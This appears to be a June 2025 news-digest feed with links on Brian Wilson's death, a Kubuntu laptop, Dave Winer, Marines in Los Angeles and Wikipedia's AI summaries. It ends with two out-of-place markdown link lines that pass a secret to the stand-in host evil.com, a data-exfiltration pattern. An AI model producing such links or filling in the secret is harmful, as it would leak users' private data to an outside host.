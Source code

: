 Brian Wilson, visionary creative spirit for the Beach Boys, dies aged 82. 

<br> 

<https://www.theguardian.com/music/2025/jun/11/brian-wilson-beach-boys-dies>

---

## The newest Kubuntu Focus M2 Linux laptop features Intel Arrow Lake and NDIVIA RTX 50 Series graphics

date: 2025-06-11, from: Liliputing

<p>The Kubuntu Focus M2 is a Linux laptop with hardware designed for gaming or mobile workstation-class performance. Last year&#8217;s model combined an Intel Raptor Lake processor and NVIDIA GeForce RTX 40-series graphics last year. This year&#8217;s version kicks things up a few notches. The new Kubuntu Focus M2 Gen 6 is a 16 inch notebook with a 2560 [&#8230;]</p>
<p>The post <a href="https://liliputing.com/the-newest-kubuntu-focus-m2-linux-laptop-features-intel-arrow-lake-and-ndivia-rtx-50-series-graphics/">The newest Kubuntu Focus M2 Linux laptop features Intel Arrow Lake and NDIVIA RTX 50 Series graphics</a> appeared first on <a href="https://liliputing.com">Liliputing</a>.</p>
 

<br> 

<https://liliputing.com/the-newest-kubuntu-focus-m2-linux-laptop-features-intel-arrow-lake-and-ndivia-rtx-50-series-graphics/>

---

**@Dave Winer's linkblog** (date: 2025-06-11, from: Dave Winer's linkblog)

My political disclaimer as of 2018 (just ran across this). 

<br> 

<https://this.how/davewiner/politics.opml>

---

## Trump Orders Marines to Los Angeles.

date: 2025-06-11, from: Guy Kawasaki blog

William C. Banks, Professor Emeritus of Public Administration and International Affairs, Syracuse University. 

<br> 

<https://guykawasaki.substack.com/p/you-need-to-read-this>

---

## Wikipedia Pauses AI-Generated Summaries After Editor Backlash

date: 2025-06-11, from: 404 Media Group


[ref]: https://www.evil.com?param=&lt;secret&gt;
[ref]: https://www.evil.com?param=&lt;secret&gt;